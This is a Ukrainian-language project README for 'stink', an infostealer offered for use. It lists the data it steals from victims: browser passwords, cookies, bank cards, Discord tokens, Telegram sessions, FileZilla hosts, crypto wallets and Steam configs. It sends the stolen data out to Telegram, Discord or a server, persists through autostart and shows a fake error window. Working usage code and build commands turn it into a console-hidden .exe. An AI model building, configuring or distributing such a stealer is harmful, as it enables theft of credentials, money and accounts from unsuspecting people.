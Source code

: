 # stink

Стилер всього лише в декілька рядків з відправкою до Telegram / Server / Discord. Без залежностей, тільки вбудовані бібліотеки.

**Wiki:** https://github.com/FallenAstaroth/stink/wiki

## Опис
`stink` вже має значний функціонал, який тільки розширюватиметься.

## Навігація
* [Поточні можливості](#Поточні-можливості)
* [Приклад використання](#Приклад-використання)
  * [Стандартний](#Стандартний)
  * [Певні модулі](#Певні-модулі)
  * [Додаткові параметри](#Додаткові-параметри)
* [Створення exe](#Створення-exe)
  * [Створення виконуваного файла](#Створення-виконуваного-файла)
  * [За допомогою BAT](#За-допомогою-BAT)
  * [За допомогою CMD](#За-допомогою-CMD)

### Поточні можливості
1. Підтримка наступних браузерів:
   - Chrome
   - Opera
   - Opera GX
   - Edge
   - Brave
   - Vivaldi
2. Збір наступних даних:
   - Скріншот
   - Кукі
   - Паролі
   - Банківські карти
   - Історія
   - Закладки
   - IP-адреса
   - Конфігурація системи
   - Активні процеси
   - Токени Discord
   - Сесії Telegram
   - Хости FileZilla
   - Крипто гаманці:
       - Metamask
       - Phantom
   - Конфіги Steam
3. Підтримка мультипрофілів браузера.
4. Відправка зібраних даних архівом в Telegram / Server / Discord.
5. Виконання в окремому потоці.
6. Виконання з використанням багатопроцесорності.
7. Можливість додання в автозапуск.
8. Вивід вікна з фейковою помилкою.

## Приклад використання
### Стандартний
```python
from stink import Stealer, Senders

if __name__ == '__main__':
    Stealer(senders=[Senders.telegram(token="YOUR_TOKEN", user_id=YOUR_ID)]).run()
```
### Певні модулі

Приклад зі збором тільки системних даних і скріншота.
```python
from stink import Stealer, Features, Senders

if __name__ == '__main__':
    Stealer(
        senders=[
            Senders.telegram(token="YOUR_TOKEN", user_id=YOUR_ID)
        ], 
        features=[
            Features.system,
            Features.screenshot
        ]
    ).run()
```
### Додаткові параметри

- `features` - вмикає модулі зі списку. Модулі можна імпортувати з `stink.enums.Features`. Доступні модулі:

  - `passwords` - збір паролів.

  - `cookies` - збір кукі.

  - `cards` - збір банківських карт.

  - `history` - збір історії пошуку.

  - `bookmarks` - збір закладок.

  - `extensions` - збір розширень браузера.

  - `processes` - збір активних процесів.

  - `system` - збір конфігурації системи.

  - `screen` - скріншот.

  - `discord` - збір токенів Discord.

  - `telegram` - збір сесій Telegram.

  - `filezilla` - збір хостів FileZilla.

  - `wallets` – збір крипто гаманців.

  - `steam` - збір конфігів Steam.


- `utils` - вмикає утиліти зі списку. Утиліти можна імпортувати з `stink.enums.Utils`. Доступні утиліти:

  - `autostart` - додання в автозапуск.

  - `message` - вивід фейкового вікна помилки.
  

- `senders` - запускає способи надсилання зі списку. Способи надсилання можна імпортувати з `stink.enums.Senders`. Доступні способи надсилання:

  - `server` - відправлення на сервер.

  - `telegram` - відправка в Telegram.

  - `discord` - надсилання в Discord.
## Створення exe
Python являється інтерпретованою мовою програмування, тому ми спочатку транслюємо його в C, а потім скомпілюємо в .exe файл.
Для цього нам знадобиться Nuitka.

### Створення виконуваного файла

1. [Завантажуємо](https://github.com/FallenAstaroth/stink/archive/refs/heads/master.zip) архів.
2. Розпаковуємо архів і переходимо в директорію stink-master.
3. Створюємо test.py (або будь-яку іншу назву) файл в цій же директорії з наступним кодом:
```python
from stink import Stealer, Senders

if __name__ == '__main__':
    Stealer(senders=[Senders.telegram(token="YOUR_TOKEN", user_id=YOUR_ID)]).run()
```

### За допомогою BAT
1. Запускаємо compiler.bat.

### За допомогою CMD
1. Відкриваємо `cmd`.
2. Прописуємо команду:
```
pip install virtualenv
```
3. Переходимо в папку з файлом `test.py`:
```
cd path\to\file
```
4. Створюємо віртуальне оточення і активуємо його:
```
virtualenv venv
```
```
venv\Scripts\activate
```
5. Встановлюємо Nuitka:
````
pip install Nuitka==0.6.16.4
````
6. Для зменшення розміру файла додатково встановлюємо Zstandard (опціонально):
```
pip install zstandard==0.17.0
```
7. Прописуємо команду:
```
nuitka --onefile --plugin-enable=multiprocessing --windows-disable-console test.py
```

Після виконання команди отримуємо test.exe файл із прихованою консоллю.
